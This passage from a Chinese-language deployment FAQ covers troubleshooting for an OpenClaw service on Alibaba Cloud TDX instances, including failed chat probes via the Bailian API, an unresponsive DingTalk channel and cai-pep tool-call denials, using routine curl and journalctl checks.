3.  部署机公网出口 IP 发生变化时，重新运行一键脚本，或执行 `peering remove deployer` 后按新出口 IP 添加 `deployer` peering。

#### Q4：Chat probe 失败

**处理方式**：

由于本方案的推理由百炼 API 完成，chat probe 失败通常与百炼配置有关：

1.  检查 `DASHSCOPE_API_KEY` 是否生效。可在部署机执行：
    ```bash
    curl -sS https://dashscope.aliyuncs.com/api/v1/services/aigc/text-generation/generation \
      -H "Authorization: Bearer $DASHSCOPE_API_KEY" \
      -H "Content-Type: application/json" \
      --data '{"model":"qwen-turbo","input":{"prompt":"hi"}}' | head
    ```
2.  检查所选模型在百炼控制台是否处于可用状态、是否欠费。
3.  通过 debug SSH 登录 guest，查看 OpenClaw 网关日志：
    ```bash
    journalctl -u cai-openclaw-gateway.service -n 200 --no-pager
    ```

#### Q5：钉钉无响应

**处理方式**：

请按以下顺序检查：

1.  部署时是否传入 `--enable-dingtalk` 或在交互模式中启用钉钉。
2.  guest 内 `openclaw status` 是否显示 `DingTalk` channel 为 `ON`。
3.  `journalctl -u cai-openclaw-gateway.service -n 200 --no-pager` 中是否存在 `dingtalk` 连接错误；如果出现 HTTP 401，优先检查钉钉 `Client ID` 和 `Client Secret` 是否与钉钉开放平台一致。
4.  钉钉应用是否具备发送/接收消息所需的权限。

#### Q6：cai-pep 拒绝所有工具调用

**处理方式**：

使用 Debug 镜像部署后，通过 SSH 连接登录 TDX 实例，查看 cai-pep 日志排查具体的拒绝原因：

```bash
journalctl -u cai-pep.service -n 200 --no-pager
```

## 结果验证记录

本文一键部署流程已在干净 Alibaba Cloud Linux 3 部署机上完成从零部署验证，覆盖依赖安装、Shelter RPM 安装、源码构建、tools 镜像构建、可信镜像构建、Rekor 上传、阿里云 TDX ECS 创建、远程证明资源注入、mesh 同步、TNG connect、Web 可达性，以及通过百炼 API 完成的 OpenClaw chat probe。
